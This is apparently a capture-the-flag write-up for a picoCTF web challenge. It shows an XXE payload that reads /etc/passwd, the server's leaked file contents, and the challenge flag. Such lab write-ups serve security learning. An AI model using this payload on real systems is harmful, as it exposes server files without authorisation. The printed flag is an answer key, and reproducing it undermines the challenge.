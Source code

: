 ## Objetivo 
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
## Solución
remplazamos `<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>`
con `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;</ID></data>`

Response:
```bash
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```
## Notas Adicionales 
inspeccionamos la pagina y vemos que los botones tienen una funcion post, entonces modificamos el metodo post para que en vez de enviar `<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>` mande: `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;</ID></data>`
esto se llama xml external entity, la info la saque de una pagina, y basicamente en el response del metodo post esta la flag.
### Referencias
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
